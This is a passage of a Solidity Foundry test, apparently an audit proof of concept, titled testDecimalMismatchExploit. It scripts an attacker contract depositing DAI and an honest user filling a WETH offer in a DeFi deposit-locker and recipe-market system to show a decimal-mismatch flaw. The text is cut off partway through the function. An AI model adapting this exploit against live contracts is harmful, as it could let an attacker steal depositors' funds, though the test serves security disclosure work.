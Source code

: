 ```solidity
        return recipeMarketHub.createMarket(
            token,
            30 days,
            recipeMarketHub.minimumFrontendFee(),
            depositRecipe,
            withdrawalRecipe,
            RewardStyle.Forfeitable
        );
    }

    function testDecimalMismatchExploit() public {
        (address ap,) = makeAddrAndKey(string(abi.encode(0)));

        ExploitWallet wallet_ = new ExploitWallet(ap, marketHashDai, marketHashWETH);

        console.log("\n=== Step 1: Attacker depositing DAI ===");
        {
            vm.startPrank(address(wallet_));
            deal(address(DAI_MAINNET_ADDRESS), address(wallet_), 1e18);
            ERC20(address(DAI_MAINNET_ADDRESS)).approve(address(depositLocker), 1e18);
            wallet_.enableFMarket();
            wallet_.deposit(depositLocker);
            wallet_.disableFMarket();
            (uint256 recordedFDeposit,) = depositLocker.marketHashToDepositorToDepositorInfo(marketHashDai, ap);
            console.log("  DAI market deposit recorded (raw):", recordedFDeposit / 1e18);
            vm.stopPrank();
        }

        console.log("\n=== Step 2: Honest user depositing WETH ===");
        // Generate address for AP
        {
            uint offerAmount = 1e18;
            uint filledSoFar = 0;
            uint numDepositors = 1;

            uint256 fillAmount = offerAmount / numDepositors;
            filledSoFar += fillAmount;

            deal(WETH_MAINNET_ADDRESS, ap, offerAmount);

            (bytes32 offerHash,) = createIPOffer_WithPoints(marketHashWETH, offerAmount, ap);

            vm.startPrank(ap);
            ERC20(WETH_MAINNET_ADDRESS).approve(address(recipeMarketHub), 100e18);

            // Record the logs to capture Transfer events
            bytes32[] memory ipOfferHashes = new bytes32[](1);
            ipOfferHashes[0] = offerHash;
            uint256[] memory fillAmounts = new uint256[](1);
            fillAmounts[0] = fillAmount;

            // AP Fills the offer (no funding vault)
            recipeMarketHub.fillIPOffers(ipOfferHashes, fillAmounts, address(0), address(this));

            vm.stopPrank();
        }

        console.log("++ attacker state ++");

        // as attacker set depositor as user address
        (uint256 x, ) = depositLocker.marketHashToDepositorToDepositorInfo(marketHashDai, ap);
```